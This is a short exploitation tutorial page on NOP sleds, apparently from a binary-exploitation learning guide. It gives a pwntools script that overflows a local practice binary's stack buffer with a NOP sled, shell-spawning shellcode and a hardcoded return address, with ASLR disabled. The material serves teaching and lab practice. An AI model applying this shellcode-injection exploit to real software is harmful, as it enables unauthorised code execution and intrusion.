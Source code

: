 ```yaml
---
description: We can use NOPs for more reliable shellcode exploits
---
```


# NOPs

NOP \(no operation\) instructions do exactly what they sound like: _nothing_. Which makes then very useful for shellcode exploits, because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP at the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backwards won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled, since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

* Add a large number of NOPs on the left
* Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

> Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location my be different.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> It's probably worth mentioning that shellcode with NOPs is not failsafe; if you receive unexpected errors padding with NOPs but the shellcode worked before, try reducing the length of the nopsled as it may be tampering with other things on the stack

Note that NOPs are only `\x90` in certain architectures, and if you need others you can use pwntools \(again\):

```python
nop = asm(shellcraft.nop())
```

